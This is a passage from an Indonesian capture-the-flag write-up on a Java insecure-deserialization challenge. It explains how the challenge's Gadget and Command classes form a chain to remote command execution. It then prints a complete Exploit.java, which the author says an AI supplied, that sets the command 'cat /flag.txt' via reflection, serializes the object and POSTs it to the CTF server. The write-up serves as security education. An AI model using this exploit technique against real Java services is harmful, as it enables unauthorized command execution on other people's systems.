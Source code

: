 - Hal tersebut bisa menyebabkan RCE karena server langsung menerima objek yang diserialkan tanpa memvalidasinya terlebih dulu.
- Ditambah lagi ada class `Gadget` dan `Command` yang dapat membuat proses eksploitasi lebih mudah. Di mana class `Command` memungkinkan eksekusi perintah sistem secara langsung. Dan class `Gadget` akan memanggil method `run()` dari `Command` saat `toString()` dipanggil.
- Kemudian saya diberikan script `Exploit.java` menggunakan **Reflection** oleh AI untuk mencoba RCE. Setelah beberapa kali penyesuaian karena issue package-package di Java akhirnya bisa juga :)
- Berikut ini adalah exploit scriptnya:

```java
// Script ini terletak di `src/main/java`

import com.dimas.Command;
import com.dimas.Gadget;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.HttpURLConnection;
import java.net.URL;
import java.util.Base64;

public class Exploit {
    public static void main(String[] args) throws Exception {
        // Buat objek Command menggunakan konstruktor tanpa argumen
        Command cmd = new Command();
        
        // Gunakan refleksi untuk mengakses dan mengubah field 'command'
        Field commandField = Command.class.getDeclaredField("command");
        commandField.setAccessible(true);
        commandField.set(cmd, "cat /flag.txt");
        
        // Bungkus Command dalam Gadget
        Gadget gadget = new Gadget(cmd);
        
        // Serialisasi objek Gadget
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(gadget);
        oos.close();
        
        // Encode payload ke Base64
        String payload = Base64.getEncoder().encodeToString(baos.toByteArray());
        
        // Kirim payload ke server
        URL url = new URL("http://ctf.slashrootctf.id:30013");
        HttpURLConnection con = (HttpURLConnection) url.openConnection();
        con.setRequestMethod("POST");
        con.setDoOutput(true);
        con.getOutputStream().write(Base64.getDecoder().decode(payload));
        
        // Baca respons dari server
        java.util.Scanner s = new java.util.Scanner(con.getInputStream()).useDelimiter("\\A");
        String response = s.hasNext() ? s.next() : "";
        System.out.println("Server response: " + response);
    }
}
```
